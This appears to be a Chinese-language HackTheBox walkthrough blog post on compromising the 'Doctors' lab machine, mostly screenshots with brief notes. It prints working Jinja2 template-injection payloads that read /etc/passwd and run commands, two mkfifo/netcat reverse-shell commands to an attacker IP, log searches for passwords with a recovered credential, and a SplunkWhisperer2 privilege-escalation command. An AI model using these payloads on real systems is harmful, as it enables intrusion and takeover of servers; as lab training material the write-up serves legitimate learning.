 ```yaml
---
layout: post
title:  "HackTheBox >_ Docker_209"
description: walkthrough
category: HackTheBox
---
```


# Docker_209

![]({{ site.url }}/assets/Docker_209.assets/20201001085037557_1874738791.png)

![]({{ site.url }}/assets/Docker_209.assets/20201001091301043_547753992.png)

![]({{ site.url }}/assets/Docker_209.assets/20201001091927797_1486909056.png)

![]({{ site.url }}/assets/Docker_209.assets/20201002100559883_672.png)

![]({{ site.url }}/assets/Docker_209.assets/20201002100612640_28567.png)

加入hosts

![]({{ site.url }}/assets/Docker_209.assets/20201002100641867_32158.png)











![]({{ site.url }}/assets/Docker_209.assets/20201002115938456_21540.png)

![]({{ site.url }}/assets/Docker_209.assets/20201002110344226_12843.png)


![]({{ site.url }}/assets/Docker_209.assets/20201030133349564_1523.png)

我们注意到url是

http://doctors.htb/post/2

如果改成1

http://doctors.htb/post/1

![]({{ site.url }}/assets/Docker_209.assets/20201030133512504_13411.png)
  
如果点击admin用户名会跳转到admin

http://doctors.htb/user/admin

![]({{ site.url }}/assets/Docker_209.assets/20201030105528241_7503.png)

http://doctors.htb/user/admin?page=1

A free blog to share medical knowledge

没有得到任何新鲜的线索。

----

![]({{ site.url }}/assets/Docker_209.assets/20201030141822719_28922.png)

py3，werkzeug 搜索了一下，
werkzeug是 WSGI（Python Web Server Gateway Interface），它为Python语言定义的Web服务器和Web应用程序或框架之间的一种简单而通用的接口。这是一个规范，描述了web server如何与web application交互
搜索发现

![]({{ site.url }}/assets/Docker_209.assets/20201030203521723_25727.png)

存在debug mode rce

https://www.exploit-db.com/exploits/43905

测试后发现无法利用

Flask

这使我们联想到flask的ssti漏洞
https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti

重新测试

账户超过20分钟就会重置
重新注册登录
![]({{ site.url }}/assets/Docker_209.assets/20201030141655454_5866.png)


![]({{ site.url }}/assets/Docker_209.assets/20201030141904261_15436.png)

![]({{ site.url }}/assets/Docker_209.assets/20201030141938888_29313.png)

测试post

![]({{ site.url }}/assets/Docker_209.assets/20201030142115257_22863.png)

![]({{ site.url }}/assets/Docker_209.assets/20201030142253082_15874.png)

之前扫目录得到的archive的title会跟随变化

![]({{ site.url }}/assets/Docker_209.assets/20201030151952638_18048.png)

测试 ssti

![]({{ site.url }}/assets/Docker_209.assets/20201030151827472_4165.png)

成功，存在漏洞

![]({{ site.url }}/assets/Docker_209.assets/20201030151804248_18227.png)


因为已知是python3
尝试python3 payload
`{{().__class__.__bases__[0].__subclasses__()[177].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}`

![]({{ site.url }}/assets/Docker_209.assets/20201030153314403_12844.png)

成功

`{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}`

![]({{ site.url }}/assets/Docker_209.assets/20201030153614942_15361.png)

可以执行命令

`{{ config.__class__.__init__.__globals__['os'].popen('ls | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 1338 >/tmp/f').read() }}`

![]({{ site.url }}/assets/Docker_209.assets/20201030154024824_30249.png)

![]({{ site.url }}/assets/Docker_209.assets/20201030155808263_25499.png)

立即获得shell

![]({{ site.url }}/assets/Docker_209.assets/20201030154123841_13931.png)


python3 -c "import pty; pty.spawn(['/bin/bash']);"

![]({{ site.url }}/assets/Docker_209.assets/20201030154256009_4564.png)

![]({{ site.url }}/assets/Docker_209.assets/20201030154454333_4665.png)

adm组，可以查看log

log太多，而我们的shell只能持续20分钟

在log中找找感兴趣的东

find . -depth 3|xargs grep -ri 'shaun'
find . -depth 3|xargs grep -ri 'root'
find . -depth 3|xargs grep -ri 'password'

![]({{ site.url }}/assets/Docker_209.assets/20201030165221383_21045.png)

Guitar123，这个页面是密码重置页面，正常应该输入一个邮箱，但是这个日志显示输入了一个字符串

合理怀疑是错手输入了密码

查看home中的用户

![]({{ site.url }}/assets/Docker_209.assets/20201030161054540_23776.png)

所以凭证可能是

shaun:Guitar123

su shaun

![]({{ site.url }}/assets/Docker_209.assets/20201030165443784_22970.png)

不出所料
用户切换成功


但是没有sudo -l

![]({{ site.url }}/assets/Docker_209.assets/20201030165604690_30222.png)

枚举时发现8090端口运行的是 splunkd

![]({{ site.url }}/assets/Docker_209.assets/20201030195148577_32469.png)


splunkd -p 8089 start

/bin/sh /opt/splunkforwarder/etc/apps/_PWN_APP_/bin/pwn.bat

![](_v_images/20201127102114147_5187.png)

8.0.5

搜索
splunkforwarder

![]({{ site.url }}/assets/Docker_209.assets/20201030195655069_8688.png)

参考阅读
https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/


exploit

https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py

python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.35 --username shaun --password Guitar123 --payload 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 1339 >/tmp/f'

![]({{ site.url }}/assets/Docker_209.assets/20201030200531306_17563.png)

失败就再打一次

![]({{ site.url }}/assets/Docker_209.assets/20201030201123819_18450.png)